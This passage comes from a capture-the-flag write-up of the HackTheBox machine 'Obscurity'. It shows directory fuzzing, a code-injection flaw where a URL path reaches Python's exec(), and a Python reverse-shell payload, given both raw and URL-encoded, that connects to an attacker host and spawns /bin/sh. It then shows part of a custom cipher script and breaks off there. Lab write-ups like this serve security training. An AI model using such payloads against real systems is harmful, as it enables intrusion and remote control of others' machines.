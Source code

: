 Fuzzing for the file with wfuzz,
```bash
wfuzz -w /root/DirectoryfUZZ/directories --sc 200,301,302 -t 40 http://obscure.htb:8080/FUZZ/SuperSecureServer.py
```
![placeholder](/writeup/assets/img/obscurity/wfuzz.png "wfuzz")
Got a directory named develop;visiting  /develop/supersecureserver.py gives a python script that is being used by the server to handle requests.
Looking through the script a line of code inside the ***ServeDoc*** function looks appealing, 
![placeholder](/writeup/assets/img/obscurity/script.png "script")
The path variable goes through the exec function,this can be used to perform remote code execution.

The string in path variable goes through the *format* function first and then the exec function runs.So whatever is the path it goes to become a string as "output = Document: path"; then exec function executes and creates a variable named **output** and assigns it the value *path*.That means a string is created using format fuction and since that string is in control of us, we can provide more command inside it that will be then executed through exec.
The following payload exploits this line of code
```bash
Payload='; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.10',7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']); #
```
This payload works as
* First finish the command that assigns the output variable with **';**
* Next, it provides another command that we want to execute(Here,reverse shell)

URL Encode the payload and then putting it in url gives a reverse shell.
```url
http://10.10.10.168:8080/%27%3B%20s%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%2710%2E10%2E14%2E10%27%2C7777%29%29%3Bos%2Edup2%28s%2Efileno%28%29%2C0%29%3B%20os%2Edup2%28s%2Efileno%28%29%2C1%29%3B%20os%2Edup2%28s%2Efileno%28%29%2C2%29%3Bp%3Dsubprocess%2Ecall%28%5B%27%2Fbin%2Fsh%27%2C%27%2Di%27%5D%29%3B%20%23  
```
Got reverse shell of www-data
![placeholder](/writeup/assets/img/obscurity/shell.png "shell")
Found a user robert on the machine.
Inside the home directory of robert user found few files  SuperSecureCrypt.py, out.txt, check.txt, passwordreminder.txt
check.txt stated that if it is encrypted with the user's key then out.txt will be created.
```python
#SuperSecureCrypt.py
import sys
import argparse

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
```